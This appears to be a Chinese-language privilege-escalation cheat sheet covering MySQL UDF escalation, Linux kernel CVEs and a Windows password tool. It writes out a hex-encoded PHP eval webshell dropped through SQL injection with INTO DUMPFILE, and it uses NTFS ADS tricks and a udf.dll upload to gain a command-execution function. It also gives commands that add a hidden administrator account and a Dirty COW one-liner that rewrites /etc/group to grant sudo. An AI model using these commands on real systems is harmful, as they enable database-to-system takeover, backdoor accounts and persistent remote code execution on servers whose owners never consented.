 # mssql提权
# mysql 提权
## UDF提权
虽然MySQL的内置函数虽然丰富，但毕竟不能满足所有人的需要，有时候我们需要对表中的数据进行一些处理而内置函数不能满足需要的时候，就需要对 MySQL 进行一些扩展，这就是可以自行添加的MySQL 的 UDF。

MYSQL5.1及之后的几个版本又多了一个限制：创建函数时所用的DLL只能放在mysql的plugin目录里面，而且这个plugin目录默认是不存在的，可能就是为了防止黑客通过导出文件的方式将DLL来写到这个文件夹，如果导出文件（`into dumpfile`）的目标目录不存在是会报错的。

**所以在导出UDF提权之前 ，先确定一下MYSQL的版本是有必要的**
`select version();`
## 写入一句话木马

```sql
    union select 
    0x3c3f70687020406576616c28245f504f53545b2770617373275d293b3f3e,2,3 into 
    dumpfile 'c:/www/small.php'

    以上语句连续执行两次，如果出现以下错误，即说明文件写入成功：
    Invalid Query：File 'c:/www/small.php' already exists
    //第二次写入提示文件已存在则说明文件写入成功
```
## 查看MYsql安装根目录
select @@basedir;

根据 我们前面讲述的MySQL5.1版本及其之后版本，我们自定义函数需要用到的shell导出的目录应该是： 
> C:/Program Files/phpStudy/MySQL/lib/plugin/

其实也可以通过以下语句获得插件目录(并不一定真实存在):

> show variables like '%plugin%';

## 创建/lib/plugin目录
> select 'test' into dumpfile 'C:/Program Files/phpStudy/MySQL/lib::INDEX_ALLOCATION';   
//利用NTFS ADS创建lib目录

> select 'test' into dumpfile 'C:/Program Files/phpStudy/MySQL/lib/plugin::INDEX_ALLOCATION';
//利用NTFS ADS创建plugin目录

**利用NTFS ADS创建目录成功率很小，这个命令执行返回一直为空，二次执行不提示目录已存在，即可判断目录创建失败。如上图即目录创建失败。**

## 将udf.dll 导出到plugin目录

> select load_file('C:/www/udf.dll') into dumpfile 'C:/Program Files/phpStudy/MySQL/lib/plugin/udf.dll';


## 通过sql语句通过udf.dll 创建shell函数

### 创建一个自定义函数 shell

    create function shell returns string soname 'udf.dll';
    //假设此时udf.dll被上传到了c:\windows\system32目录
    
    create function shell returns string soname 'C:udf.dll';
    //假设此时udf.dll被上传到了C盘根目录目录
    
    create function shell returns string soname 'udf.dll';
    //假设此时udf.dll被上传到了任意的环境变量目录，如C:\php\

### 用法
`shell`函数用于执行系统命令，用法如下，其中的`set`是将要执行的cmd命令： 
> 
//set命令用于查询系统环境变量  

然后我们尝试在服务器添加一个用户名为`matrix`密码为`matrix`的账户:  
> select shell('cmd','net user matrix matrix /add');
接着尝试把`matrix`账户添加到`administrators`管理组：  
> select shell('cmd','net localgroup administrators matrix /add');  
然后查看详细的账户信息，确认是否已经成功添加上账户和账户是否已经被成功添加到管理员组。如下操作：  
> select shell('cmd','net user matrix');


## 完毕
提权完毕之后我们可以通过以下语句删除相关函数以防被他人利用：

    drop function shell;
    //删除函数
    delete from mysql.func where name='shell';
    //删除函数

#linux 
## cve提权
### CVE-2016-5195 脏牛漏洞 ./dow 文件名 内容
添加用户到sudo组
./dirtyc0w /etc/group "$(sed 's/\(sudo:x:.*:\)/\1test1/g' /etc/group)"
下次管理员再登陆的话 sudo su 不需要密码

### CVE-2016-8655：Linux内核竞争条件漏洞
./chocobo_root

### CVE-2017-1000367 sudo本地提权漏洞
selinux必须开

# win
## 系统密码破解
1. getpass.exe 